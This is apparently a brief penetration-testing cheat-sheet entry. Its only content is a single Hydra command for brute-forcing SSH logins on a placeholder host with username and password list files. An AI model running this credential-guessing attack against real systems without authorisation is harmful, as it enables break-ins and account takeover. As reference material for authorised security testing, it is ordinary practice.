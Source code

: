 # hydra ssh brute force
```bash
hydra -L users -P passwords -e nsr $IP ssh -t 1
```

# References

Tags:
    #assorted


